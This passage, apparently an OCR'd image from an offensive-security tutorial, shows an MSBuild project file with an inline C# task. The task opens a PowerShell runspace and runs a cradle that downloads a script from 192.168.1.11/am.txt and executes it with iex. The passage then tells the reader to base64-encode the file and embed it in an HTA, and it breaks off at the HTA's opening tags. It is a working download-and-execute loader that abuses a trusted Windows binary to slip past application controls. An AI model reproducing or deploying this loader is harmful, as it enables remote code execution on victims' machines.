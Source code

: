 ```C#
                Console.WriteLine("Hello From Fragment");
        ]]>
      </Code>
    </Task>
    </UsingTask>
    <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
        
            using System;
            using System.IO;
            using System.Diagnostics;
            using System.Reflection;
            using System.Runtime.InteropServices;
            //Add For PowerShell Invocation
            using System.Collections.ObjectModel;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;
            using System.Text;
            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;
                            
            public class ClassExample :  Task, ITask
            {
                public override bool Execute()
                {
                    String cmd = @"(New-Object Net.WebClient).DownloadString('http://192.168.1.11/am.txt') | iex";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
            return true;
                    
                
                }
                
                
            }
            
            
 
            
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>

```
- what we will do next is [base64 this text](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')) then paste it into this script and save it as hta :
```jscript
<html>
<head>
```